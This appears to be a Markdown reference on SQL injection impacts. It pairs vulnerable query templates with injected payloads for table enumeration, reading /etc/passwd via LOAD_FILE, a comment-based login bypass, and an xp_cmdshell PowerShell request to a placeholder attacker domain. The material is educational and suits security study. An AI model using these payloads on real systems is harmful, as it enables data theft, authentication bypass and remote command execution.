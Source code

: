 # SQL Injection

## Table of Contents
- [Information Leakage](#information-leakage)
- [Authentication bypass](#authentication-bypass)
- [RCE](#rce)

## Information Leakage

### It is possible to access data without the appropriate permissions.

- Retrieving schema objects
  1. Query that fetches posts
      ```sql
      SELECT * FROM posts WHERE id = {user_input};
      ```
  2. Standard query
      ```sql
      SELECT * FROM posts WHERE id = 1;
      ```
      ```json
      {
        "id": 1,
        "title": "First Post",
        "content": "This is the content of the first post."
      }
      ```
  3. Manipulated query
      ```sql
      SELECT * FROM posts WHERE id = 1 UNION SELECT null, table_name, null FROM information_schema.tables WHERE table_schema = 'database_name'
      ```
      ```json
      [
        {
          "id": 1,
          "title": "First Post",
          "content": "This is the content of the first post."
        },
        {
          "id": null,
          "table_name": "posts",
          "content": null
        },
        {
          "id": null,
          "table_name": "user_information",
          "content": null
        }
      ]
      ```

- Reading file from the file system
  1. Query that fetches posts
      ```sql
      SELECT * FROM posts WHERE id = {user_input};
      ```
  2. Manipulating the query to read local files
      ```sql
      SELECT * FROM posts WHERE id = 1 UNION SELECT null, LOAD_FILE('/etc/passwd'),null;
      ```
      ```json
      [
        {
          "id": 1,
          "title": "First Post",
          "content": "This is the content of the first post."
        },
        {
          "id": null,
          "title": "root:x:0:0:root:/root:/bin/bash\nuser:x:1000:1000:user:/home/user:/bin/bash\n...",
          "content": null
        }
      ]
      ```

## Authentication bypass

### The protection logic implemented in the service's business logic can be bypassed.

- Login bypass
  1. Query that validates credentials
      ```sql
      SELECT * FROM users WHERE id = '{user_input_id}' AND password = '{user_input_password}';
      ```

  2. Manipulated query
      ```sql
      SELECT * FROM users WHERE id = 'admin'-- AND password = '1';
      ```

## RCE

### Arbitrary commands can be executed remotely.

- OAST
  1. Query that fetches posts
      ```sql
      SELECT * FROM posts WHERE id = {user_input};
      ```
  2. Manipulated query
      ```sql
      SELECT * FROM posts WHERE id = 1; exec xp_cmdshell('powershell -Command "Invoke-WebRequest -Uri https://[ATTACKER-DOMAIN]/"');
      ```
